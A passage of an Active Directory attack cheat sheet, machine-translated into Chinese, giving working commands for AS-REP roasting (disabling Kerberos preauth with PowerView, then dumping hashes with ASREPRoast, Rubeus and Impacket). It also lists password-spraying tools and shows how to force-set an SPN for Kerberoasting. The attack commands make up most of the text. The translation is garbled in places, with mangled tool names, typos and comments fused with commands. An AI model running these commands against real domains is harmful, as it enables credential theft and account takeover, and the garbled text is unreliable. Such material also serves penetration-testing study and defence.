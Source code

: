 提示:我们添加了一个过滤器，例如 RDPUsers，以获得“用户帐户”而不是机器帐户，因为机器帐户哈希是不可破解的！

PowerView:

```
Invoke-ACLScanner -ResolveGUIDs | ?{$_.IdentinyReferenceName -match "RDPUsers"}
Disable Kerberos Preauth:
Set-DomainObject -Identity <UserAccount> -XOR @{useraccountcontrol=4194304} -Verbose
Check if the value changed:
Get-DomainUser -PreauthNotRequired -Verbose
```

最后使用[as repast](https://github.com/HarmJ0y/ASREPRoast)工具执行攻击。

```
#Get a spesific Accounts hash:
Get-ASREPHash -UserName <UserName> -Verbose#Get any ASREPRoastable Users hashes:
Invoke-ASREPRoast -Verbose
```

使用红色:

```
#Trying the attack for all domain users
Rubeus.exe asreproast /format:<hashcat|john> /domain:<DomainName> /outfile:<filename>#ASREPRoast spesific user
Rubeus.exe asreproast /user:<username> /format:<hashcat|john> /domain:<DomainName> /outfile:<filename>#ASREPRoast users of a spesific OU (Organization Unit)
Rubeus.exe asreproast /ou:<OUName> /format:<hashcat|john> /domain:<DomainName> /outfile:<filename>
```

使用 Impacket:

```
#Trying the attack for the specified users on the file
python GetNPUsers.py <domain_name>/ -usersfile <users_file> -outputfile <FileName>
```

# 密码喷雾攻击

如果我们通过泄露用户帐户获得了一些密码，我们可以使用这种方法来尝试和利用其他域帐户上的密码重用。

工具:

*   [域名密码祈祷](https://github.com/dafthack/DomainPasswordSpray)
*   [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec)
*   [调用-CleverSpray](https://github.com/wavestone-cdt/Invoke-CleverSpray)
*   [喷](https://github.com/Greenwolf/Spray)

# 强制设置 SPN

*WUT 是 DIS？:如果我们有足够的权限- > GenericAll/GenericWrite 我们可以在一个目标帐户上设置一个 SPN，请求一个 TGS，然后抓取它的 blob 并强制执行。*

*   PowerView:

```
#Check for interesting permissions on accounts:
Invoke-ACLScanner -ResolveGUIDs | ?{$_.IdentinyReferenceName -match "RDPUsers"}

#Check if current user has already an SPN setted:
Get-DomainUser -Identity <UserName> | select serviceprincipalname

#Force set the SPN on the account:
Set-DomainObject <UserName> -Set @{serviceprincipalname='ops/whatever1'}
```
